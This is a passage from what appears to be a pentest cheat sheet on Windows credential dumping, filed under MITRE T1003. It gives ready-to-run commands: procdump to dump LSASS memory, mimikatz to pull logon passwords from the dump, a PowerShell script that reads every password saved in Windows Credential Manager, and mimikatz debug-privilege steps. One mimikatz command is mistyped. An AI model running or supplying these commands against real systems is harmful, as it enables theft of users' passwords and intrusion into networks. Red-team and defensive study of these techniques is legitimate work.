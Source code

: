 For more information about that technique refer to [T1003.004 - OS Credential Dumping: LSA Secrets](https://attack.mitre.org/techniques/T1003/004/)

#### LSASS

LSASS is a process in Microsoft Windows operating systems that is responsible for enforcing the security policy on the system.
It verifies users logging on to a Windows computer or server, handles password changes, and creates access tokens.

We can use procdump to dump the memory of lsass.exe and then use mimikatz offline in order to perform

```bash
procdump.exe -accepteula -ma lsass.exe c:\windows\temp\lsass.dmp 2>&1
```

Mimikatz can be used offline in order to read the contents of the LSASS dump and especially sections that contain logon passwords.

```bash
mimikatz.exe log "sekurlsa::minidump lsass.dmp" sekurlsa::logonPasswords exit
```

##### Credential Manager

Credential Manager lets you view and delete your saved credentials for signing in to websites, connected applications, and networks.

All of the credentials are stored in a credentials folder which you will find at this location *%Systemdrive%\Users\\<Username>\AppData\Local\Microsoft\Credentials*

Credentials saved in credential manager are of two types:

- Web credentials: As Edge and widows are the product of the same company, credentials manager has access to the stored information of Edge browser too, in order to increase safekeeping of saved credentials. It also stores the password of order application provided by Microsoft such as skype, Microsoft office, etc.
- Windows credentials: Under this category, all the windows login credentials can be found. Along with any system that is connected in the network.

The following script can be used to retreive password from the credential manager.

```powershell
[void][Windows.Security.Credentials.PasswordVault,Windows.Security.Credentials,ContentType=WindowsRuntime]
$vault = New-Object Windows.Security.Credentials.PasswordVault
$vault.RetrieveAll() | % { $_.RetrievePassword();$_ }
```

Mimikatz can be used to retreive password from the credential manager.

```bash
mimikatz.exe
mimikatz # privilege::debug            # Ask for debug privilege for mimikatz process.
mimikatz # sekurlsa:logonpassword      # Under credman, you will see the password
```

LaZagne can be used to retreive password from the credential manager.
